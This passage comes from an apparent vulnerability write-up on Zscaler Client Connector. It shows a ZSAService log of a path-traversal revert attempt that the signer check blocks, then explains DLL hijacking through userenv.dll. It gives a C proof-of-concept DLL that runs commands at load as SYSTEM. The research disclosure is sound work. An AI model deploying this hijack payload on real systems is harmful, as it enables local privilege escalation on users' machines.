 ```
INF validateSignerAndIssuer Thumbprints returned true
INF Signer matches Zscaler SHA2 March 1, 2021
INF Signer trust released.
INF Process executable is signed by Zscaler.
INF UserSID: "0, 0, 0, 0, 0, 5", SECURITY_LOCAL_SYSTEM_RID: "0, 0, 0, 0, 0, 5"
INF SID matched with SECURITY_LOCAL_SYSTEM_RID
INF ZSAService RPC: Accepting RPC from a SYSTEM owned Zscaler process
INF ZSAService RPC command: PERFORM_APP_REVERT
INF Starting revert
DBG Running zscaler executable: C:\Program Files\Zscaler\RevertZcc\..\..\..\Program Files\Microsoft Office\root\Office16\WINWORD.EXE - revertzcc 1 - mode unattended
ERR Signer does not match Zscaler
INF Signer trust released.
ERR Executable [C:\Program Files\Zscaler\RevertZcc\..\..\..\Program Files\Microsoft Office\root\Office16\WINWORD.EXE] is not Zscaler binary.
INF Done with ZSAService RPC command: PERFORM_APP_REVERT with return value:0
```

As such, we needed to find another link in the chain.

# Achieving Arbitrary Code Execution via DLL Hijacking with ZSAService

DLL hijacking is often **not deemed as a vulnerability**³ for good reasons, but it can still shine when chained in specific scenarios like this one. Two conditions elevate the humble DLL hijacking to a privilege escalation gadget:

1. The process that is hijacked is executed by a higher-privileged process than the attacker, so a security boundary can be crossed.
2. The DLL hijack path is in a low-privileged attacker-writable location, so no additional privileges are required to execute the attack.

One of the ZScaler Client Connector binaries, ZSAService, is vulnerable to DLL hijacking because its search path starts with the current directory. One of the DLLs that could be hijacked is **userenv.dll**. This is a straightforward DLL hijacking that can be exploited with one of the many DLL hijacking payload templates out there.

```c
#include "pch.h"
#include <iostream>

BOOL APIENTRY DllMain(HMODULE hModule,
  DWORD ul_reason_for_call,
  LPVOID lpReserved
)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
    system("whoami > C:\\hacked.txt");
    //WinExec("cmd.exe", SW_SHOW);
    //WinExec("powershell.exe", SW_SHOW);
  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) void DestroyEnvironmentBlock()
{
  return;
}
```
